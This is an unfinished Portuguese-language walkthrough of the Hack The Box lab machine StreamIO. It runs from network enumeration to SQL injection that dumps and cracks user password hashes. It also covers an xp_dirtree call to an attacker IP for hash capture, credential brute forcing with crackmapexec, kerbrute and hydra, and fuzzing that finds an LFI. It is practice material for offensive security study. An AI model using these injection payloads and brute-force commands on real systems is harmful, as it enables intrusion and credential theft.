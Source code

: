 StreamIo
========================

# Enumeration

    sudo nmap_enum 10.10.11.158 | tee nmap_output.txt

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.11.158 | tee nmap_udp_output.txt

![qownnotes-media-UDMSdX](../../../media/qownnotes-media-UDMSdX.png)


    sudo nmap -p- -Pn -T5 -n 10.10.11.158 | tee nmap_fullportstcp_output.txt
![qownnotes-media-CcKSJx](../../../media/qownnotes-media-CcKSJx.png)

    enum4linux -a 10.10.11.158
    
    crackmapexec smb 10.10.11.158
    
    domain:streamIO.htb
    
![qownnotes-media-sIqNpf](../../../media/qownnotes-media-sIqNpf.png)

    rpcclient -N -U '' 10.10.11.158
    
    smbclient -L //10.10.11.158

![qownnotes-media-oYiqLZ](../../../media/qownnotes-media-oYiqLZ.png)

    gobuster dir -u http://10.10.11.158 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
![qownnotes-media-XqKwOR](../../../media/qownnotes-media-XqKwOR.png)

    gobuster dir -u http://10.10.11.158 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_jeeves_gobuster.txt"

![qownnotes-media-pqgIRe](../../../media/qownnotes-media-pqgIRe.png)

    gobuster dir -u https://10.10.11.158 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_443_protocol_streamio_gobuster.txt"
    
    gobuster dir -u https://10.10.11.158 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php" -k -t 16 -o "tcp_port_443_protocol_gobuster.txt"
    
    sudo nmap -sC -sV -Pn -T5 -n 10.10.11.158 -p 53,464,593,3268,3269,9389
    
    gobuster dir -u https://10.10.11.158 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php" -k -t 16 -o "tcp_port_443_protocol_gobuster.txt"
    
    gobuster dir -u https://10.10.11.158 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_443_protocol_streamio_gobuster.txt"
  
  
  ![qownnotes-media-OxOGnj](../../../media/qownnotes-media-OxOGnj.png)

    import ldap3
    server = ldap3.Server('10.10.11.158', get_info=ldap3.ALL, port=389, use_ssl=False)
    connection = ldap3.Connection(server)
    connection.bind()
    server.info
    
![qownnotes-media-ebrWHf](../../../media/qownnotes-media-ebrWHf.png)

    nmap -Pn -sV -p 389,3269,3268 --script="banner,(ldap* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_port_ldap_nmap.txt" 10.10.11.158


    wfuzz -u https://streamio.htb -H "Host: FUZZ.streamio.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 315

![qownnotes-media-CCtMJJ](../../../media/qownnotes-media-CCtMJJ.png)

    gobuster dir -u https://watch.streamio.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx" -k -t 16 -o "tcp_port_protocol_watch_ext_gobuster.txt"


# Exploitation

## SQL INJECTION

Referência

<https://medium.com/@alokkumar0200/owning-a-machine-using-xp-cmdshell-via-sql-injection-manual-approach-a380a5e2a340>

    curl https://watch.streamio.htb/Search.php -k --data "q=series' union select 1,@@version,3,4,5,6;--"

    q=series' union select 1,@@version,3,4,5,6;--
    
    
    q=series' union select 1,CURRENT_USER,3,4,5,6;--
    db_user

![qownnotes-media-dQOJju](../../../media/qownnotes-media-dQOJju.png)

    q=series' union select 1,CONCAT(username,':',password),3,4,5,6 from users;--
    
![qownnotes-media-iVanLl](../../../media/qownnotes-media-iVanLl.png)

  
    cat creds.txt                                                                                                                                                                                                                           
    admin:665a50ac9eaa781e4f7f04199db97a11    
    Alexendra:1c2b3d8270321140e5153f6637d3ee53    
    Austin:0049ac57646627b8d7aeaccf8b6a936f    
    Barbra:3961548825e3e21df5646cafe11c6c76    
    Barry:54c88b2dbd7b1a84012fabc1a4c73415    
    Baxter:22ee218331afd081b0dcd8115284bae3    
    Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8    
    Carmon:35394484d89fcfdb3c5e447fe749d213    
    Clara:ef8f3d30a856cf166fb8215aca93e9ff    
    Diablo:ec33265e5fc8c2f1b0c137bb7b3632b5    
    Garfield:8097cedd612cc37c29db152b6e9edbd3    
    Gloria:0cfaaaafb559f081df2befbe66686de0    
    James:c660060492d9edcaa8332d89c99c9239    
    Juliette:6dcd87740abb64edfa36d170f0d5450d    
    Lauren:08344b85b329d7efd611b7a7743e8a09    
    Lenord:ee0b8a0937abd60c2882eacb2f8dc49f    
    Lucifer:7df45a9e3de3863807c026ba48e55fb3    
    Michelle:b83439b16f844bd6ffe35c02fe21b3c0    
    Oliver:fd78db29173a5cf701bd69027cb9bf6b    
    Robert:f03b910e2bd0313a23fdd7575f34a694    
    Robin:dc332fb5576e9631c9dae83f194f8e70    
    Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5    
    Samantha:083ffae904143c4796e464dac33c1f7d    
    Stan:384463526d288edcc95fc3701e523bc7    
    Thane:3577c47eb1e12c8ba021611e1280753c    
    Theodore:925e5408ecb67aea449373d668b7359e    
    Victor:bf55e15b119860a6e6b5a164377da719    
    Victoria:b22abb47a02b52d5dfa27fb0b534f693    
    William:d62be0dc82071bccc1322d64ec5b6c51    
    yoshihide:b779ba15cedfd22a023c4d8bcf5f2332

    x=1; for i in `cat creds.txt`; do echo $i > file$x.txt; x=$((x++)); done

    for i in `ls file*`; do john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt $i; done >> senhas.txt
    cat senhas.txt | grep -v Loaded
    awk {'print $2":"$1'} senhas.txt | sed 's/(//' | sed 's/)//' > creds.txt
    
## Creds

Juliette:$3xybitch
Clara:%$clara
Barry:$hadoW
Bruno:$monique$1991$
Lauren:##123a8j8w5123##
yoshihide:66boysandgirls..
Michelle:!?Love?!123
Lenord:physics69i
Sabrina:!!sabrina$


    q=series' union select 1,is_srvrolemember('sysadmin'),3,4,5,6 from users;--
    # Esse ultimo comando deveria retornar 1, porem retornou 0

![qownnotes-media-flfUQc](../../../media/qownnotes-media-flfUQc.png)

    q=series' union select 1,2,3,4,5,6 from users; EXEC xp_cmdshell 'ipconfig'--
 
 ![qownnotes-media-DGwEiY](../../../media/qownnotes-media-DGwEiY.png)

 Nao funcionou

    q=series' union select 1,2,3,4,5,6; exec master..xp_dirtree '\\10.10.14.5\test'--

    
## Brute Forcing

    crackmapexec smb 10.10.11.158 -u users.txt -p passwords.txt
 
    
    crackmapexec winrm 10.10.11.158 -u users.txt -p passwords.txt
    
    kerbrute userenum --dc 10.10.11.158 -d streamio.htb users.txt
    
    kerbrute bruteuser --dc 10.10.11.158 -d streamio.htb /usr/share/wordlists/rockyou.txt yoshihide
    
    hydra -L users.txt -P passwords.txt 10.10.11.158 ldap2 -V -f
    

## WebEnum

    gobuster dir -u https://streamio.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -t 16 -o "tcp_port_protocol_gobuster_autenticado.txt" -c "PHPSESSID=iijak2sj64mghckom5220vo5vo"
    
    gobuster dir -u https://streamio.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,php,aspx,asp,html" -k -t 16 -o "tcp_port_protocol_gobuster_autenticado.txt" -c "PHPSESSID=iijak2sj64mghckom5220vo5vo"
 
![qownnotes-media-eNPmCS](../../../media/qownnotes-media-eNPmCS.png)

Aumentando aqui o portfólio de ferramentas, vou tentar com wfuzz explorar a vulneraabilidade presente no parâmetro da aplicação:

    wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 1678 -H "Cookie: PHPSESSID=iijak2sj64mghckom5220vo5vo" https://streamio.htb/admin/?FUZZ=index.php

Aqui vale explicar que se trata do seguinte...

-c -> cor na resposta
-z file,/caminho/arquivo/texto -> onde informa os inputs para fuzzear
--hh -> hide esconder numero de caracteres
-H -> Adicionar um cabeçalho custom no comando
<URL> final

![qownnotes-media-evKxgA](../../../media/qownnotes-media-evKxgA.png)

![qownnotes-media-LrwebE](../../../media/qownnotes-media-LrwebE.png)

Encontamos uma vulnerabilidde de LFI nesse cara



NÃO TERMINADO